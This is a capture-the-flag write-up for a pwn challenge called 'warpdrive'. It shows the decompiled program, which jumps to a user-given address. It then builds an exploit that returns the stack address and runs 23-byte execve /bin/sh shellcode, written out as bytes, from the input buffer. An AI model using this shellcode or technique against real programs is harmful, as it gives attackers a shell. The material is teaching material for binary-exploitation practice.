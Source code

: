 # warpdrive

![warpdrive](pictures/chall.png)

This challenge is pretty straightforward.

Here is the Ghidra decompilation:

```c
undefined8 main(void)
{
  long in_FS_OFFSET;
  code *jump;
  char target [40];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  printf("CURRENT POSITION: %p\nWARP TO:",&jump);
  fgets(target,40,stdin);
  __isoc99_sscanf(target,&%p,&jump);
  (*jump)();
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

The only relevant part is 

```c
printf("CURRENT POSITION: %p\nWARP TO:",&jump);
fgets(target,40,stdin);
__isoc99_sscanf(target,&%p,&jump);
(*jump)();
```

This is obvious a shellcode challenge, since it ask us for an address, and jumps to it.

NX is disabled, allowing us to execute code on the stack.

![checksec](pictures/checksec.png)

By the way, `__isoc99_sscanf(target,&%p,&jump);` is just converting a hex pointer to integer value. After that, the program `(*jump)();` jumps there.

Do note that the shellcode that comes with `shellcraft` is 48 bytes long and is too big. 

We can find a shorter, 23 bytes long one [here](https://www.exploit-db.com/shellcodes/46907).

Do note that they also give us the address of the stack with  `printf("CURRENT POSITION: %p\nWARP TO:",&jump);`.

Here is how we are gonna get our shell:

```py
stack = int(p.recvline(), 16)
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05";

payload = hex(stack + 24).encode() + b' ' + shellcode
```

`stack` is the address of the variable `jump`. We want to call our shellcode, which will be in the `target` variable. with some simple math, the offset of our shellcode is `8 (length of jump variable) + 16 (length of hex of addr) = 24`

So we will jump to `stack+24`.

Full solution in `wardrive.py`